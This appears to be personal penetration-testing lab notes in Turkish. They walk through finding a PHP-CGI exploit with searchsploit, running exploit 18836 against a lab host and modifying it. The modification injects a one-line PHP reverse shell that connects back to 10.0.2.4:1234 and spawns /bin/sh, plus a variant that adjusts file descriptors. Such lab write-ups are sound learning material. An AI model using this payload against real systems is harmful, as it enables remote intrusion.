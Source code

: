 

## searchsploit -u
##### searchsploit'e her bakmadan önce güncellemen gerekir en doğru vuln analizi yapabilmen için.
###  searchsploit php cgi

![[Pasted image 20240404001613.png]]
![[Pasted image 20240404001711.png]]
![[Pasted image 20240404001829.png]]
##### Hem msfconsole hem manuel py  exploiti var.



---
### searchsploit -m 18836
Usage : python2 18836.py 10.0.2.7 80

![[Pasted image 20240404002648.png]]
### Bu şekilde bir sonuç verdi şimdi bunu modify etmeliyiz.

## Aslında bu python kodu şunu yapıyor. http://10.0.2.7/phpinfo.php  burada bulunan komutları direk çalıştırıyor.

# peki biz buna one liner php reverse shell kodu eklersek ne olur ?

```
"""<?php $sock=fsockopen("10.0.2.4",1234);exec("/bin/sh -i <&3 >&3 2>&3");?>"""
```
![[Pasted image 20240404004140.png]]
![[Pasted image 20240404004302.png]]
![[Pasted image 20240404004156.png]]
![[Pasted image 20240404004316.png]]
### Kod çalıştı ama nc ile shell alamadık.

## Bunun sebebi descripter'ların 3 olması olabilir. Bunları 4 'e çevireceğiz. 

```
"""<?php $sock=fsockopen("10.0.2.4",1234);exec("/bin/sh -i <&4 >&4 2>&4");?>"""
```
![[Pasted image 20240404004525.png]]
